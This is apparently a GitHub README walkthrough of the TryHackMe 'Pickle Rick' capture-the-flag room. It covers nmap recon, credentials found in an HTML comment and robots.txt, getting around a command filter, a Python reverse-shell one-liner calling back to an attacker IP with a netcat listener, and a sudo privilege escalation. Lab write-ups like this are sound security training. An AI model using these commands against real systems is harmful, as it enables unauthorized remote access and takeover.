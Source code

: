 # TryHackMe picklerick room walkthrough

## Step 1, Recon 
Command used: sudo nmap -sCV 10.10.17.255 -vv

```
PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 63 OpenSSH 7.2p2 Ubuntu 4ubuntu2.6 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 0eaba8073a9cb62acf6b39e4bd9a4838 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQCt/Op+HObSeyJIURfjI5VLnOkRJpQ6WRAAgGA1gk+A5b1ccg8QyeUo8OXjXcxIKcHKvkKvnhtcAx+K3EJ6BTMvOkpObnG2zTD8efpbTUq0D4Er8G/qBJa5zXjlOfFW8u+bLQhG2TMsdIeVzV+m3oiOIyWkaAlODmkQYtULQE/nInP9utJfYEFAGReNmEiCB7bFBYzheU+7arSXN9rTPzGwtkIv9pzyhKqkvojAGaIXyT/xVuSX59SgAuQc96ibRxuEO3n/O1/kHTRXz3iiZMr/5lxx9TJMpnC4SFQlDXIjejgslqoY5K0FqD5n4/W/CUZJjJY/eywh1fntP9XEXRQr
|   256 2f0708ed21255250e549396fdc4acf48 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBBdCRR1bRZH+jg804vKOO0ch+sodX47r7FpkC9kbedHmLn5saVQbvNhwyeMRC+n6z8KiRCENxCvy2tYy6wOfgzs=
|   256 ef4c6a2ee721418cb0ff51cdba07e877 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIJbjyAIEhQHoJmKZDGeLX2EnPWGdesHUSF2CgWg0XDsF
80/tcp open  http    syn-ack ttl 63 Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Rick is sup4r cool
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
By visiting the webpage. I got the following

<img src="images/picklerick_0001.png">

While poking around in the source code of the index webpage, I have found a html comment which tells us the username of the login page (I have redacted the username)

<img src="images/picklerick_0002.png">

```
<!--

Note to self, remember username!

Username: ██████████████

-->
```

Afterwards, while taking a look at the robots.txt file, I got a strange message

<img src="images/picklerick_0003.png">

While it looks like nonsense at first, it looked like a password, so I decided to try it in the login page.

<img src="images/picklerick_0004.png">

By trying to login with the found username and the strange text in the robots.txt file, we are in!

<img src="images/picklerick_0005.png">

## Step 2, Exploiting

The first thing we will see will be the a text box that seemingly allow us to enter commands and the server will execute it. I tried to get the directory listing

<img src="images/picklerick_0006.png">

However, while trying to read the file with cat, I got this

<img src="images/picklerick_0007.png">

Same with head

<img src="images/picklerick_0008.png">

But then... I tested less, and I got no errors!

<img src="images/picklerick_0009.png">

And by doing so, we got the the first ingredient!

<img src="images/picklerick_0010.png">

While making sure that I have not left anything behind, I have found base64 encoded text in command panel source:
`Vm1wR1UxTnRWa2RUV0d4VFlrZFNjRlV3V2t0alJsWnlWbXQwVkUxV1duaFZNakExVkcxS1NHVkliRmhoTVhCb1ZsWmFWMVpWTVVWaGVqQT0==`
	
When decoded, it reads "rabbit hole", which meant nothing in this case. Nice troll :smiley:

Now, we are going to try and get a reverse shell with python.

Setting up Netcat handler

<img src="images/picklerick_0012.png">

Command used

```nc -lvnp 1852```

Setting up reverse shell

<img src="images/picklerick_0013.png">

Command used

```export RHOST="10.18.16.11";export RPORT=1852;python3 -c 'import sys,socket,os,pty;s=socket.socket();s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("sh")'```

...and we caught the shell!

<img src="images/picklerick_0014.png">

Next up, we will have to stabilize the shell

```
python3 -c 'import pty;pty.spawn("/bin/bash");'
export TERM=xterm
ctrl+Z
stty raw -echo;fg
```	

And with that, we can now kill processes without the fear of killing our reverse shell

<img src="images/picklerick_0015.png">

Now, we have to find the second ingredient. While looking around for possible locations, I found it in the /home/rick directory

<img src="images/picklerick_0016.png">

Only one ingredient left!

## Step 3, privilege escalation

To get the final ingredient, we will have to escalate our privileges, and with `sudo -l`, we found out that we can run any commands with sudo!

<img src="images/picklerick_0020.png">

Checking the /root directory, I have found our third and last ingredient

<img src="images/picklerick_0021.png">

<br>

# Please star this repository if you found this helpful, thanks!